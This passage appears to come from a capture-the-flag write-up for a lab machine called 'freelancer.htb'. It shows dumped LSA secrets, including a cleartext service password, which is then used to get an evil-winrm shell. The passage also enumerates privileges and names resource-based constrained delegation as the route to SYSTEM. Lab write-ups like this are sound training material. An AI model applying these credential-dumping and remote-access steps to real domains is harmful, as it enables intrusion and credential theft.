```c
[*] NL$KM 
 0000   63 4D 9D 4C 85 EF 33 FF  A5 E1 4D E2 DC A1 20 75   cM.L..3...M... u
 0010   D2 20 EA A9 BC E0 DB 7D  BE 77 E9 BE 6E AD 47 EC   . .....}.w..n.G.
 0020   26 02 E1 F6 BF F5 C5 CC  F9 D6 7A 16 49 1C 43 C5   &.........z.I.C.
 0030   77 6D E0 A8 C6 24 15 36  BF 27 49 96 19 B9 63 20   wm...$.6.'I...c 
NL$KM:634d9d4c85ef33ffa5e14de2dca12075d220eaa9bce0db7dbe77e9be6ead47ec2602e1f6bff5c5ccf9d67a16491c43c5776de0a8c6241536bf27499619b96320
[*] _SC_MSSQL$DATA 
(Unknown User):PWN3D#l0rr@Armessa199
[*] Cleaning up...
```

| Password              |
| --------------------- |
| PWN3D#l0rr@Armessa199 |

```c
┌──(kali㉿kali)-[~]
└─$ evil-winrm -i freelancer.htb -u lorra199 -p 'PWN3D#l0rr@Armessa199'
                                        
Evil-WinRM shell v3.5
                                        
Warning: Remote path completions is disabled due to ruby limitation: quoting_detection_proc() function is unimplemented on this machine
                                        
Data: For more information, check Evil-WinRM GitHub: https://github.com/Hackplayers/evil-winrm#Remote-path-completion
                                        
Info: Establishing connection to remote endpoint
*Evil-WinRM* PS C:\Users\lorra199\Documents>
```

## Pivoting

The user `lorra199` had `SeMachineAccountPrivilege` set which indicated `privilege escalation` to `NT AUTHORITY\SYSTEM` via `Resource Based Constrained Delegation (RBCD)`.

```c
*Evil-WinRM* PS C:\Users\lorra199\Documents> whoami /all

USER INFORMATION
----------------

User Name           SID
=================== ==============================================
freelancer\lorra199 S-1-5-21-3542429192-2036945976-3483670807-1116


GROUP INFORMATION
-----------------

Group Name                                 Type             SID                                            Attributes
========================================== ================ ============================================== ==================================================
Everyone                                   Well-known group S-1-1-0                                        Mandatory group, Enabled by default, Enabled group
BUILTIN\Remote Management Users            Alias            S-1-5-32-580                                   Mandatory group, Enabled by default, Enabled group
BUILTIN\Users                              Alias            S-1-5-32-545                                   Mandatory group, Enabled by default, Enabled group
BUILTIN\Pre-Windows 2000 Compatible Access Alias            S-1-5-32-554                                   Mandatory group, Enabled by default, Enabled group
```
